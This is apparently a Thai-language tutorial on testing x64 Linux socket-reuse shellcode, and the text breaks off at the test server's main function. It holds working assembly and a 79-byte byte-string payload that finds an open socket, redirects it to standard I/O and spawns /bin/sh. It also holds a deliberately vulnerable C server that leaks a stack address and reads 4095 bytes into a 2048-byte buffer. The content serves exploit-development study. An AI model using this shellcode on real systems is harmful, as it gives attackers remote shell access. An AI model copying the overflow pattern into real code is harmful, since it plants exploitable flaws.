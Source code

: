 ```nasm
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall

;
; Python3
;   sc = b"\x48\x31\xd2\x48\x89\xd7\x52\x52\x48\x89\xe6\xb2\x10\x52\x48\x89\xe2\x48\xff\xc7\x48\x31\xc0\xb0\x34\x0f\x05\x48\x85\xc0\x75\xf1\x48\x31\xf6\x48\x89\xf0\xb0\x21\x0f\x05\x48\xff\xc6\x40\x80\xfe\x03\x75\xf0\x48\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
;   Length: 79 bytes
;

```


## มาทดสอบ Shellcode กันดีกว่าค้าบ

ขั้นแรกเลยผมใช้โจทย์จาก [DHAYALAN](https://d3fa1t.ninja/2017/09/17/linux-x86-one-way-shellcode-socket-reuse/)  มาโมอ่ะ เพราะขี้เกียจเขียนเองจะได้แบบนี้ค้าบ

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h> 
#include <sys/socket.h>
#include <netinet/in.h>
#include <errno.h>

// src: https://d3fa1t.ninja/2017/09/17/linux-x86-one-way-shellcode-socket-reuse/
// use for testing Socket-reuse shellcode x64

int newsockfd;

void error(const char *msg)
{
    perror(msg);
    exit(1);
}
void greet(int newsockfd){
  int n;
  char Hello[500];
  char buffer[2048];

  sprintf(Hello, "Welcome to my server!Send a message!\nbuffer: %lp\n", &buffer);

  write(newsockfd,Hello,strlen(Hello));

  n = read(newsockfd,buffer,4095);
  if (n < 0) error("ERROR reading from socket");

}
int main(int argc, char *argv[])
```